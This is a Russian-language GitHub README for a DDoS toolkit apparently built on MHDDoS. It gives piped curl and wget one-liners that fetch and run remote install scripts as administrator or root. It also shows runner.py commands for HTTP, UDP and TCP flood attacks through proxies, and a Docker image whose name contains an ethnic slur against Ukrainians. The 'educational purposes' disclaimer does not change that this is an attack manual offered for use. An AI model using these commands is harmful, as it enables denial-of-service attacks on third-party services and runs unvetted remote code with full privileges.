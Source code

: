 ﻿# :red_circle: scripts 

                                  ❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗
                                  ❗❗❗❗❗❗❗❗❗ДИСКЛЕЙМЕР❗❗❗❗❗❗❗❗❗❗❗❗❗❗
                                  ❗Данный софт предоставлен в ознакомительных целях. ❗❗❗❗❗❗
                                  ❗Автор не несёт ни какой ответственности за выполняемый код. ❗❗
                                  ❗Все действия вы производите на свой страх и риск. ❗❗❗❗❗❗
                                  ❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗


### :large_orange_diamond: Для установки на Windows:
1) Запустите cmd от администратора
2) Выполните команду  curl -s https://raw.githubusercontent.com/mr-kritik/scripts/main/install.bat | cmd

### :large_orange_diamond: Для установки на Kali Linux :
1) Открываем консоль
2) sudo su
3) wget -O - https://raw.githubusercontent.com/mr-kritik/scripts/main/start_install_linux.sh | sh


Дождитесь полной установки!
На Windows будет установлен Docker, Python v.3, Git + сам софт для атаки.
На Linux будет установлено wget, Python v.3, git, Docer + сам софт для атаки.

На windows создастся папка C:\VZ
На Linux в вашей домашней папке создастся папка VZ

# ЗАПУСК СОФТА :alien:
# 1. Более лояльный, менее агрессивный. :no_entry:
##### :pushpin: WINDOWS : 
Запускаем cmd от администратора, переходим в папку cd C:\VZ
##### :pushpin: LINUX : 
Запускаем консоль пишем sudo su, переходим в папку cd $HOME/VZ

##### :pushpin: WIN LINUX : 
python3 runner.py <Цель> --http-methods <Метод> -t <Угрозы> --rpc <Подключения> -p <Обновление> --debug



	Где :
		a) Цель – Это ссылка в формате https://example.com
		b) Метод (--http-methods) – Один из методов MHDDoS (CFB, DGB, BYPASS, GET  и т.д., подробнее о методах будет ниже).
		c) Угрозы (-t) – Количество запросов/пакетов на цель (1 ядро = 1000).
		d) Подключения(--rpc) – Количество запросов, отправляемых на 1 прокси-сервер, после чего прокси-сервер транслирует эти запросы на цель.
		f) Обновление (-p) – Период времени в секундах, через который ваше соединение с прокси-серверами будет обновляться (прокси-серверы имеют свойства падать, сбрасывать соединение и т.д.). По умолчанию 900 секунд / 15 минут.
		g) --debug – Нужен для того, чтобы мы видели лог атаки (информация по выводу будет ниже). 


## :recycle: Методы Атаки:

:heavy_check_mark: Атака на Layer 7 (HTTP(S) по URL) 
```
python3 runner.py https://example.com https://example1.com -t 1000 --debug
```
:heavy_check_mark: Атака на Layer 7 (HTTP по IP + PORT)
```
python3 runner.py 192.168.2.1:443 192.168.1.1:80 -t 1000 --debug
```

:heavy_check_mark: Атака на Layer 4 (по UDP адресам)
:warning::warning::warning:ВНИМАНИЕ НУЖНО ВПН ПОДКЛЮЧЕНИЕ:warning::warning::warning:
```
python3 runner.py udp://192.168.2.10:53 -t 1000 --debug
```
:heavy_check_mark: Комбинированная атака
```
python3 runner.py tcp://192.168.2.10:53 https://example1.com 
```



## :recycle: Вывод из атаки :
- PPS - количество установленных соединений с целью атаки
- BPS - вес пакетов в байтах, килобайтах, мегабайтах. Оптимально в районе 500 Кб. Может быть и меньше, а может быть гораздо больше. Главное не = 0
- % - когда произойдёт смена прокси в %


# 2. Более агресивный через Docker. :no_entry:

docker run -it --rm ghcr.io/mr-kritik/ddos_ukropi:latest <Цель> --http-methods <Метод> -t <Угрозы> --rpc <Подключения> -p <Обновление> --debug

расшифровку можете взять выше






